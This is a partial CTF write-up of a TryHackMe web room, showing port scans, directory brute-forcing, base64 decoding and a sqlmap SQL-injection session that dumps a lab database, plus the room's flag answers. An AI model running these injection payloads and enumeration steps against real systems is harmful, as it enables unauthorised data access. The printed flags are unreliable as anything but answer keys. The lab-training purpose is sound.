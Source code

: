 <p align="left">November 6, 2024 - Hey there, fellow lifelong learner!<br>
I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure. It´s part of my $$\textcolor{#FF69B4}{\textbf{184}}$$-day-streak in  <a href="https://tryhackme.com/r/p/Rosana">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{&nbsp; CTF collection Vol.2}}$$
</h1>

<p align="center">Sharpening up your CTF skill with the collection. The second volume is about web-based CTF.<br>
                  Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/ctfcollectionvol2">CTF collection VOl.2</a>.</p><br>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/6628e1a4-ea67-4e69-b719-702b2fc07e4c">
  <img height="150px" src="https://github.com/user-attachments/assets/88772c45-e475-4d0a-a8cb-c1c1440725d7">
</p>

<h2>Task 1 - Author note</h2>

<p>Welcome, welcome and welcome to another CTF collection. This is the second installment of the CTF collection series. For your information, the second serious focuses on the web-based challenge. There are a total of 20 easter eggs a.k.a flags can be found within the box. Let see how good is your CTF skill.<br>

Now, deploy the machine and collect the eggs!</p>

<p>Warning: The challenge contains seizure images and background. If you feeling uncomfortable, try removing the background on <style> tag.</p>

Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise</p>

> 1.1 - <em>Fact: Eggs contain the highest quality protein you can buy.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>



<h2>Task 2 - Easter egg</h2>

<p>Submit all your easter egg right here. Gonna find it all!</p>

> 2.1 - <em>Easter 1</em><br>
> <code>Question Hint</code>: Check the robots.
>> <strong>THM{4u70b07_r0ll_0u7}</strong>
<p></p>

<pre><code>$ rustscan -a 10.10.157.196 -- -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
\U0001f30dHACK THE PLANET\U0001f30d

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.157.196:22
Open 10.10.157.196:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.80 ( https://nmap.org ) at 2024-11-06 21:27 UTC
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 21:27
Scanning 10.10.157.196 [2 ports]
Completed Ping Scan at 21:27, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:27
Completed Parallel DNS resolution of 1 host. at 21:27, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:27
Scanning ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196) [2 ports]
Discovered open port 80/tcp on 10.10.157.196
Discovered open port 22/tcp on 10.10.157.196
Completed Connect Scan at 21:27, 0.00s elapsed (2 total ports)
Initiating Service scan at 21:27
Scanning 2 services on ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196)
Completed Service scan at 21:28, 6.09s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.157.196.
SE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:28
Completed NSE at 21:28, 0.03s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:28
Completed NSE at 21:28, 0.04s elapsed
Nmap scan report for ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196)
Host is up, received syn-ack (0.00050s latency).
Scanned at 2024-11-06 21:27:53 UTC for 7s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.01 seconds
</code></pre>

![image](https://github.com/user-attachments/assets/7cf7a060-19c7-4740-9d08-d7c85c32c93f)

<pre><code>root@ip-[Attack_IP]:~# gobuster dir -u http://10.10.157.196 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.157.196
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 301) [Size: 314] [--> http://10.10.157.196/login/]
/index                (Status: 200) [Size: 94328]
/button               (Status: 200) [Size: 39148]
/static               (Status: 200) [Size: 253890]
/cat                  (Status: 200) [Size: 62048]
/small                (Status: 200) [Size: 689]
/who                  (Status: 200) [Size: 3847428]
/robots               (Status: 200) [Size: 430]
/iphone               (Status: 200) [Size: 19867]
/game1                (Status: 301) [Size: 314] [--> http://10.10.157.196/game1/]
/egg                  (Status: 200) [Size: 25557]
/dinner               (Status: 200) [Size: 1264533]
/ty                   (Status: 200) [Size: 198518]
/ready                (Status: 301) [Size: 314] [--> http://10.10.157.196/ready/]
/saw                  (Status: 200) [Size: 156274]
/game2                (Status: 301) [Size: 314] [--> http://10.10.157.196/game2/]
/wel                  (Status: 200) [Size: 155758]
/free_sub             (Status: 301) [Size: 317] [--> http://10.10.157.196/free_sub/]
/nicole               (Status: 200) [Size: 367650]
/server-status        (Status: 403) [Size: 294]
Progress: 135446 / 220561 (61.41%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 136330 / 220561 (61.81%)
===============================================================
Finished
===============================================================
root@ip-[Attack_IP]:~# 
</code></pre>

![image](https://github.com/user-attachments/assets/80d5876a-803a-4afe-be31-e0c21c0004ad)

![image](https://github.com/user-attachments/assets/710449d5-e0fa-4547-873a-d689be15fc48)

<pre><code>root@ip-[Attack_IP]:~# echo "45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d" | xxd -r -p
Easter 1: THM{4u70b07_r0ll_0u7}
root@ip-[Attack_IP]:~# 
</code></pre>

<br>

> 2.2 - <em>Easter 2</em><br>
> <code>Question Hint</code>: Decode the base64 multiple times. Don't forget there are something being encoded.
>> <strong>THM{f4ll3n_b453}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/6d2d90e5-e448-4968-9201-27d4026d44b7)

<pre><code>root@ip-[Attack_IP]:~# sudo apt-get install gridsite-clients
</code></pre>

<pre><code>root@ip-[Attack_IP]:~# urlencode -d $(echo "VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=" | base64 -d) | base64 -d | sed "s/\ //g" | base64 -d | sed "s/\ //g" | base64 -d
DesKel_secret_base
</code></pre>

![image](https://github.com/user-attachments/assets/34444a26-e7bc-418f-9ec4-2bf011f9ab03)

![image](https://github.com/user-attachments/assets/febcb3a7-3bbc-4e89-ad25-ad043f9daa53)     

<br>

> 2.3 - <em>Easter 3</em><br>
> <code>Question Hint</code>: Directory buster with common.txt might help.
>> <strong>THM{y0u_c4n'7_533_m3}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/0059e8dc-d592-4055-b802-8b35c146d8dc)

![image](https://github.com/user-attachments/assets/4c0cf585-4d13-4ecd-bee6-197160b3b139)

<br>

> 2.4 - <em>Easter 4</em><br>
> <code>Question Hint</code>: time-based sqli
>> <strong>THM{1nj3c7_l1k3_4_b055}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/56d0d814-c921-4443-8361-a38febbae083)

![image](https://github.com/user-attachments/assets/5b40e8da-e1a9-4c97-965c-e1b5905d80ed)

![image](https://github.com/user-attachments/assets/190353b2-b02f-4305-8e98-95c06212613e)

<pre><code>root@ip-[Attack_IP]:~# sqlmap -r request.txt --dbs --level 3 --risk 3
...
...
22:12:17] [INFO] testing 'MySQL >= 5.0.12 time-based blind - ORDER BY, GROUP BY clause'
[22:12:17] [INFO] testing 'MySQL <= 5.0.11 time-based blind - ORDER BY, GROUP BY clause (heavy query)'
[22:12:17] [INFO] testing 'Generic UNION query (93) - 1 to 10 columns'
[22:12:18] [INFO] testing 'MySQL UNION query (93) - 1 to 10 columns'
[22:12:20] [WARNING] User-Agent parameter 'User-Agent' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 21062 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:12:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:12:20] [INFO] fetching database names
[22:12:20] [INFO] fetching number of databases
[22:12:20] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:12:20] [INFO] retrieved: 4
[22:12:20] [INFO] retrieved: information_schema
[22:12:21] [INFO] retrieved: THM_f0und_m3
[22:12:21] [INFO] retrieved: mysql
[22:12:21] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:12:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_IP]'

[*] shutting down at 22:12:22
</code></pre>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -D THM_f0und_m3 --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:14:05

[22:14:05] [INFO] parsing HTTP request from 'request'
[22:14:05] [INFO] resuming back-end DBMS 'mysql' 
[22:14:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:14:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:14:05] [INFO] fetching database names
[22:14:05] [INFO] fetching number of databases
[22:14:05] [INFO] resumed: 4
[22:14:05] [INFO] resumed: information_schema
[22:14:05] [INFO] resumed: THM_f0und_m3
[22:14:05] [INFO] resumed: mysql
[22:14:05] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:14:05] [INFO] fetching tables for database: 'THM_f0und_m3'
[22:14:05] [INFO] fetching number of tables for database 'THM_f0und_m3'
[22:14:05] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:14:05] [INFO] retrieved: 2
[22:14:05] [INFO] retrieved: nothing_inside
[22:14:06] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[22:14:06] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_ID]'

[*] shutting down at 22:14:06

root@ip-[Attack_IP]:~# 
</code></pre>

<br>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --columns
       ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:17:23

[22:17:23] [INFO] parsing HTTP request from 'request'
[22:17:23] [INFO] resuming back-end DBMS 'mysql' 
[22:17:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:17:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:17:23] [INFO] fetching database names
[22:17:23] [INFO] fetching number of databases
[22:17:23] [INFO] resumed: 4
[22:17:23] [INFO] resumed: information_schema
[22:17:23] [INFO] resumed: THM_f0und_m3
[22:17:23] [INFO] resumed: mysql
[22:17:23] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:17:23] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
[22:17:23] [INFO] fetching current database
[22:17:23] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:17:23] [INFO] retrieved: THM_f0und_m3
[22:17:23] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[22:17:23] [INFO] retrieved: 1
[22:17:23] [INFO] retrieved: Easter_4
[22:17:24] [INFO] retrieved: varchar(30)
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

[22:17:24] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_IP]'

[*] shutting down at 22:17:24

root@ip-10-10-146-248:~# 
</code></pre>


<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --dump-all
       ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:19:29

[22:19:29] [INFO] parsing HTTP request from 'request'
[22:19:29] [INFO] resuming back-end DBMS 'mysql' 
[22:19:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:19:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:19:29] [INFO] fetching database names
[22:19:29] [INFO] fetching number of databases
[22:19:29] [INFO] resumed: 4
[22:19:29] [INFO] resumed: information_schema
  ...
  ...
[22:20:00] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] retrieved: 1
[22:20:00] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+

[22:20:01] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/root/.sqlmap/output/10.10.157.196/dump/THM_f0und_m3/nothing_inside.csv'
[22:20:01] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] retrieved: 2
[22:20:01] [INFO] retrieved: username
[22:20:01] [INFO] retrieved: password
[22:20:01] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] retrieved: 2
[22:20:01] [INFO] retrieved: 05f3672ba34409136aa71b8d00070d1b
[22:20:03] [INFO] retrieved: DesKel
[22:20:03] [INFO] retrieved: He is a nice guy, say hello for me
...  
</code></pre>

<br>


> 2.5 - <em>Easter 5</em><br>
> <code>Question Hint</code>:
>> <strong>______</strong>
<p></p>



> 2.6 - <em>Easter 6</em><br>
>> <strong>______</strong><br>
<p><br></p>

> 2.7 - <em>Easter 7</em><br>
>> <strong>______</strong><br>
<p><br></p>

> 2.8 - <em>Easter 8</em><br>
>> <strong>______</strong><br>
<p><br></p>

> 2.9 - <em>Easter 9</em><br>
>> <strong>______</strong><br>
<p><br></p>

> .2.10 - <em>Easter 10</em><br>
>> <strong>______</strong><br>
<p><br></p>






